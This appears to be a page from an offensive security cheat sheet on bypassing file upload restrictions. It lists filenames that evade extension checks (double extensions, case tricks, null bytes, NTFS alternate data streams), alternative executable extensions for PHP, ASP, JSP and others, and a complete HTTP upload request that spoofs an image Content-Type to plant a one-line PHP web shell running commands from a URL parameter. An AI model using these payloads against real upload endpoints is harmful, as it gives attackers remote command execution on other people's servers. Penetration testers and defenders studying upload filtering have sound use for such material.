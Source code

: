 
## 🛠️ Comprehensive Bypass Techniques

### 1. File Extension Bypass Methods

#### Double Extension Technique
```bash
# Common double extension bypasses
shell.php.jpg      # PHP code with image extension
backdoor.asp.png   # ASP script with image extension
webshell.jsp.gif   # JSP payload with image extension
payload.aspx.txt   # ASPX code with text extension
```

#### Case Manipulation
```bash
# Case-based bypasses for case-insensitive systems
shell.PHP          # Uppercase extension
backdoor.Asp       # Mixed case
webshell.AsP       # Alternate case pattern
payload.pHp        # Random case mixing
```

#### Special Character Injection
```bash
# Character-based bypass techniques
shell.php%00.jpg    # Null byte injection (legacy PHP < 5.3.4)
backdoor.asp.       # Trailing dot (Windows)
webshell.php::$DATA # NTFS Alternate Data Stream
payload.php%20      # URL-encoded space
```

#### Alternative Executable Extensions
| Server Technology | Primary Extension | Alternative Extensions |
|-------------------|-------------------|------------------------|
| **PHP** | .php | .php3, .php4, .php5, .phtml, .pht, .inc |
| **ASP/ASP.NET** | .asp, .aspx | .asa, .cer, .cdx, .aspx |
| **JSP** | .jsp | .jspx, .jspf, .jspa, .jsw |
| **Perl** | .pl | .pm, .cgi, .perl |
| **Python** | .py | .pyw, .pyc, .pyo |

### 2. MIME Type Spoofing Techniques

#### Content-Type Header Manipulation
```http
POST /upload HTTP/1.1
Host: target.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary

------WebKitFormBoundary
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: image/jpeg

<?php system($_GET['cmd']); ?>
------WebKitFormBoundary--
```
